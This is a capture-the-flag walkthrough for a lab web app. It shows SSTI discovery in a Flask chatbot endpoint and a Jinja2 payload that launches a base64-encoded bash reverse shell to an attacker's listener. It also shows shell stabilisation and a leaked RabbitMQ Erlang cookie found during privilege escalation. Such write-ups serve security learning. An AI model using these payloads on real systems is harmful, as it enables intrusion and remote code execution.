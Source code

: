 I make this request:
```shell
curl -X POST -H "Content-Type: application/json" -b "jwt=redacted" -d '{}' http://storage.cloudsite.thm/api/fetch_messeges_from_chatbot

{  
 "error": "username parameter is required"  
}
```

I add `-d '{"username":"admin"}'` to my curl command instead of keeping it empty:
```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
  <meta charset="UTF-8">  
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
      <title>Greeting</title>  
</head>  
<body>  
  <h1>Sorry, admin, our chatbot server is currently under development.</h1>  
</body>  
</html>
```
{% raw %}
I change the username to bozo to see how it responds and it says this: `Sorry, bozo, our chatbot server is currently under development.` 

Ok so it directly reflects the username. I will test for SSTI.

I change the curl command with `-d '{"username":"{{3*3}}"}'`. On the dashboard it shows: `Sorry, 9, our chatbot server is currently under development.` 

SSTI is confirmed. I cause a syntax error to find it is running a flask app so it uses the Jinja2 templating engine.

To get a reverse shell I set my listener (`-nc lvnp 4444`), go to revshells.com and base64 encode a bash rev shell. I run this curl command:
```shell
curl -X POST -H "Content-Type: application/json" -b "jwt=redacted" -d '{"username":"{{request.application.__globals__.__builtins__.__import__(\"os\").popen(\"e  
cho c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTMuNjYuMTIzLzQ0NDQgMD4mMQ==|base64 -d|bash\").read()}}"}' http://storage.cloudsite.thm/api/fetch_messeges_from_chatbot
```

Fix my shell:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

I get `/home/azrael/user.txt` 

___

## Privilege Escalation

No `sudo -l`. No useful suids. I run `linpeas.sh`, save the output to my machine, and look through it. I find this:
```shell
cat output.txt | grep -C 2 '.erlang.cookie'

╔══════════╣ Analyzing Erlang Files (limit 70)  
-r-----r-- 1 rabbitmq rabbitmq 16 Aug 26 06:49 /var/lib/rabbitmq/.erlang.cookie  
s50UtBF3YF6O7QBm
```
